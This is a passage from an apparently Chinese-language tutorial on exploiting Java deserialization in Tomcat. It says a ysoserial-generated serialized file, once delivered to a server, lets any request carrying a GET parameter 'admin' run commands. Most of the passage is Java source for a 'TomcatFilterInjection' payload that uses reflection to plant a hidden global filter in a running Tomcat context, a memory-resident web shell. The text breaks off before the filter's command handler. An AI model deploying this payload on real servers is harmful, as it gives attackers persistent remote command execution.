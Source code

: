 启动参数配置如下

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220216084002.png)

将生成的`output.serial`文件打到服务器上，然后在访问任意路径时，带上GET参数`admin`就可以执行命令了

可以发现我给自己起的Payload名字是`TomcatFilterInjection`，把它放在如图的位置

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220216084004.png)

Payload代码如下，大家也可以自己制作`ServletInjection`或者`ListenerInjection`作为Payload

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    package ysoserial.shells;  
    import com.sun.org.apache.xalan.internal.xsltc.DOM;import com.sun.org.apache.xalan.internal.xsltc.TransletException;import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;import com.sun.org.apache.xml.internal.serializer.SerializationHandler;import org.apache.catalina.Context;import org.apache.catalina.core.ApplicationFilterConfig;import org.apache.catalina.core.StandardContext;import org.apache.catalina.loader.WebappClassLoaderBase;import org.apache.tomcat.util.descriptor.web.FilterDef;import org.apache.tomcat.util.descriptor.web.FilterMap;  
    import javax.servlet.*;import javax.servlet.http.HttpServletRequest;import java.io.IOException;import java.lang.reflect.Constructor;import java.lang.reflect.Field;import java.util.Map;  
    public class TomcatFilterInjection extends AbstractTranslet implements Filter {  
        static {        try {  
                String name = "TomcatFilterInjection";            // 从ContextClassLoader获取StandardContext            WebappClassLoaderBase webappClassLoaderBase =(WebappClassLoaderBase) Thread.currentThread().getContextClassLoader();            StandardContext standardContext = (StandardContext)webappClassLoaderBase.getResources().getContext();            // 通过反射从StandardContext获取到filterConfigs            Field field = standardContext.getClass().getDeclaredField("filterConfigs");            field.setAccessible(true);            Map filterConfigs = (Map) field.get(standardContext);  
                if (filterConfigs.get(name) == null) { // 防止重复注入                TomcatFilterInjection filter = new TomcatFilterInjection();                // 封装Filter为FilterDef，并添加到StandContext中                FilterDef filterDef = new FilterDef();                filterDef.setFilterName(name);                filterDef.setFilterClass(filter.getClass().getName());                filterDef.setFilter(filter);                standardContext.addFilterDef(filterDef);                // 生成新的ApplicationFilterConfig并添加到filterConfigs中                Constructor constructor = ApplicationFilterConfig.class.getDeclaredConstructor(Context.class, FilterDef.class);                constructor.setAccessible(true);                ApplicationFilterConfig filterConfig = (ApplicationFilterConfig) constructor.newInstance(standardContext, filterDef);                filterConfigs.put(name, filterConfig);                // 创建FilterMap并加入StandardContext中，为Filter确定适用的URL                FilterMap filterMap = new FilterMap();                filterMap.addURLPattern("/*"); // 全局生效                filterMap.setFilterName(name);                filterMap.setDispatcher(DispatcherType.REQUEST.name());                standardContext.addFilterMapBefore(filterMap);            }        } catch (Exception e) {            // 忽略错误，在生成生成序列化代码时也会执行static部分，必然报错，直接跳过即可        }    }   

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    